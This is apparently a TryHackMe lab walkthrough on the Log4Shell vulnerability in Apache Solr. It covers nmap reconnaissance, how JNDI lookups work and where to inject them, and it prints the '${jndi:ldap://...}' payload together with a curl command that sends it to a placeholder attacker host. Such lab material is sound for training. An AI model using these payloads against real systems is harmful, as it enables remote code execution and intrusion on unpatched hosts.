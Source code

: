 On December 9th, 2021, the world was made aware of a new vulnerability identified as CVE-2021-44228, affecting the Java logging package log4j. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers remote code trivial remote code execution on hosts engaging with software that utilizes this log4j version. This attack has been dubbed "Log4Shell"

Today, log4j version 2.16.0 is available and patches this vulnerability (JNDI is fully disabled, support for Message Lookups is removed, and the new DoS vulnerability CVE-2021-45046 is not present). https://github.com/apache/logging-log4j2/releases/tag/rel%2F2.16.0

However, the sheer danger of this vulnerability is due to how ubiquitous the logging package is. Millions of applications as well as software providers use this package as a dependency in their own code. While you may be able to patch your own codebase using log4j, other vendors and manufacturers will still need to push their own security updates downstream. Many security researchers have likened this vulnerability to that of Shellshock by the nature of its enormous attack surface. We will see this vulnerability for years to come.

For a growing community-supported list of software and services vulnerable to CVE-2021-44228, check out this GitHub repository:

    https://github.com/YfryTchsGD/Log4jAttackSurface

This room will showcase how you can test for, exploit, and mitigate this vulnerability within Log4j.

While there are a number of other articles, blogs, resources and learning material surrounding CVE-2021-44228, I (the author of this exercise) am particularly partial to these: 

    https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
    https://log4shell.huntress.com/
    https://www.youtube.com/watch?v=7qoPDq41xhQ

Note from the author:

Please use the information you learn in this room to better the security landscape. Test systems you own, apply patches and mitigations where appropriate, and help the whole industry recover. This is a very current and real-world threat -- whether you are a penetration tester, red teamer, incident responder, security analyst, blue team member, or what have you -- this exercise is to help you and the world understand and gain awareness on this widespread vulnerability. It should not be used for exploitative gain or self-serving financial incentive (I'm looking at you, beg bounty hunters)

Additionally, please bear in mind that the developers of the log4j package work on the open source project as a labor of love and passion. They are volunteer developers that maintain their project in their spare time. There should be absolutely no bashing, shame, or malice towards those individuals. As with all things, please further your knowledge so you can be a pedestal and pillar for the information security community. Educate, share, and help.



The target virtual machine includes software that utilizes this vulnerable log4j package, offering you a playground to explore the vulnerability.

After deploying your virtual machine, you should find that the IP address (accessible within the TryHackMe VPN or through the provided AttackBox) is 10.10.253.236.

To begin, start with basic reconnaissance to understand what ports are open on this machine. This is best done within a Linux distribution, like Kali Linux, ParrotOS, Black Arch (or any other flavor of your choosing) with the nmap command-line tool:
Run a basic nmap scan against vulnerable machine

           
attackbox@tryhackme$ nmap -v 10.10.253.236

        

The application present on this target specifically uses ports that may not be immediately noticed by nmap. For the "whole picture perspective," scan all ports like so:
Scan all ports on machine via nmap

           
attackbox@tryhackme$ nmap -v -p- 10.10.253.236

![image](https://user-images.githubusercontent.com/95479102/146311863-49cfb618-2247-4e99-b8d2-1f8d069acbf9.png)

This target machine is running Apache Solr 8.11.0, one example of software that is known to include this vulnerable log4j package. For the sake of showcasing this vulnerability, the application runs on Java 1.8.0_181.

Explore the web interface accessible at http://10.10.253.236:8983 and click around to get a feel for the application. For more detail on Apache Solr, please refer to their official website. https://solr.apache.org/

This instance of Apache Solr is provisioned with no data whatsoever. It is a flat, vanilla, and absolutely minimum installation -- yet at its core it is still vulnerable to this CVE-2021-44228. 

![image](https://user-images.githubusercontent.com/95479102/146311938-2e619690-57ec-4ca1-a7ae-591b40ac5e5b.png)

![image](https://user-images.githubusercontent.com/95479102/146314634-026fa0b1-7f23-4d08-867c-81cfdd51bc0d.png)

![image](https://user-images.githubusercontent.com/95479102/146316131-91683424-64f6-4e01-bd17-743dfd34850f.png)



Note that the URL endpoint that you have just uncovered needs to be prefaced with the solr/ prefix when viewing it from the web interface. This means that you should visit:

http://10.10.253.236:8983/solr/admin/cores

You also noticed that params seems to be included in the log file. At this point, you may already be beginning to see the attack vector.

The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact executed just as it is entered into log files. 

Some examples of this syntax are:

    ${sys:os.name}
    ${sys:user.name}
    ${log4j:configParentLocation}
    ${ENV:PATH}
    ${ENV:HOSTNAME}
    ${java:version}

You may already know the general payload to abuse this log4j vulnerability. The format of the usual syntax that takes advantage of this looks like so:

${jndi:ldap://ATTACKERCONTROLLEDHOST}

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack. 

Notice the ldap:// schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol. For the sake of brevity, we will not need to cover all the ins-and-outs and details of LDAP here, but know that this is something we will need to work with as we refine our attack.

For now, know that the target will in fact make a connection to an external location. This is indicated by the ATTACKERCONTROLLEDHOST placeholder in the above syntax. You, acting as the attacker in this scenario, can host a simple listener to view this connection.

The next question is, where could we enter this syntax?

Anywhere that has data logged by the application.

This is the crux of this vulnerability. Unfortunately, it is very hard to determine where the attack surface is for different applications, and ergo, what applications are in fact vulnerable. Simply seeing the presence of log4j files doesn't clue in on the exact version number, or even where or how the application might use the package.

Think back to the previous task. You already discovered that you could supply params to the /solr/admin/cores URL, and now that you have a better understanding of how log4j works, you should understand that this is where you supply your inject syntax. You can simply supply HTTP GET variables or parameters which will then processed and parsed by log4j. All it takes is this single line of text -- and that makes this vulnerability extremely easy to exploit.

Other locations you might supply this JNDI syntax:

    Input boxes, user and password login forms, data entry points within applications
    HTTP headers such as User-Agent, X-Forwarded-For, or other customizable headers
    Any place for user-supplied data

If you would like more information on this JNDI attack vector, please review this Black Hat USA presentation from 2016.

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

curl 'http://10.10.253.236:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\}'

![image](https://user-images.githubusercontent.com/95479102/146321410-c46cd0f1-26c2-47f6-8655-f70ff50b7618.png)


